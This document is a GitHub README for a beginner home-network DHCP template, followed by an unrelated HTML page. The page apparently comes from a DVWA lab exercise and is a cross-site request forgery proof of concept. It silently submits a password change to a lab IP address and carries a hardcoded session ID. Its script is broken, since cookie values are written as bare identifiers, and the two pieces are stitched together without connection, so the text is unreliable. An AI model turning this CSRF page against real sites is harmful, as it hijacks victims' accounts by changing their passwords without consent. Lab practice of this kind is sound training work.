 Simple-Network-Configuration
Overview
This project provides a basic template for setting up a simple home network configuration, focusing on dynamic IP address allocation via DHCP. It demonstrates the fundamental steps involved in configuring a small home network, automating IP assignment and basic routing. The repository is ideal for beginners who want to set up and manage a home network with minimal manual configuration.

Features
Home Network Setup: Configure a simple home network for devices such as PCs, laptops, and smart devices.
DHCP Configuration: Automate IP address allocation for home devices using DHCP, minimizing the need for manual IP setup.
Basic Routing: Establish basic routing between devices for local communication.
Network Topology
The simple home network topology configured by this project includes:

A router with DHCP enabled.
Multiple end devices (e.g., laptops, PCs, or smart devices).
Installation
Clone the repository:

bash
Copy code
git clone (https://github.com/vishal-rathod-1/Simple-Network-Configuration.git)
cd simple-network-configuration
For Linux, ensure the system is set to use DHCP:

bash
Copy code
sudo netplan apply
For Windows, configure DHCP from the network settings panel.

Contributing
Feel free to submit issues and pull requests to enhance the project. Contributions for additional platform support and more robust configurations are welcome!

License
This project is licensed under the MIT License. See the LICENSE file for more details.


<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Password Change Form</title>
   <script>
        // This function sets the CSRF token from the cookie to the hidden input field
        window.onload = function() {
            // Get CSRF token from cookies
            var csrfToken = getCookie('csrf_token'); // Assuming your CSRF token is stored as 'csrf_token'
            var sessionID = getCookie('PHPSESSID'); // Get session ID from cookie
            var securityLevel = getCookie('security'); // Get security level from cookie
            
            // Set the CSRF token in the hidden input field
            document.getElementById('csrf_token').value = csrfToken;
            document.getElementById('PHPSESSID').value =  s247v4jvr16uekkch2estn1823;
 // If needed, store session ID in a hidden input
            document.getElementById('security').value = low; // If needed, store security level in a hidden input
        };

        // Helper function to get the value of a cookie by its name
        function getCookie(name) {
            var value = "; " + document.cookie;
            var parts = value.split("; " + name + "=");
            if (parts.length == 2) return parts.pop().split(";").shift();
            return "";  // Return empty string if cookie not found
        }
  </script>
</head>
<body>

    <h1>Change Your Password</h1>

    <!-- Password Change Form -->
    <form action="http://10.10.69.120/vulnerabilities/csrf/?password_new=kali&password_conf=kali&Change=Change#" method="POST">
        <label for="password_new">New password:</label><br />
        <input type="password" name="password_new" id="password_new" autocomplete="off" required><br /><br />

        <label for="password_conf">Confirm new password:</label><br />
        <input type="password" name="password_conf" id="password_conf" autocomplete="off" required><br /><br />

        <!-- Hidden input to pass CSRF Token -->
        <input type="hidden" id="csrf_token" name="csrf_token" value="">
        
        <!-- Hidden inputs for session ID and security level (optional, depending on your needs) -->
        <input type="hidden" id="PHPSESSID" name="PHPSESSID" value="">
        <input type="hidden" id="security" name="security" value="low">

        <br />
        <input type="submit" value="Change Password" name="Change">
    </form>

</body>
</html>
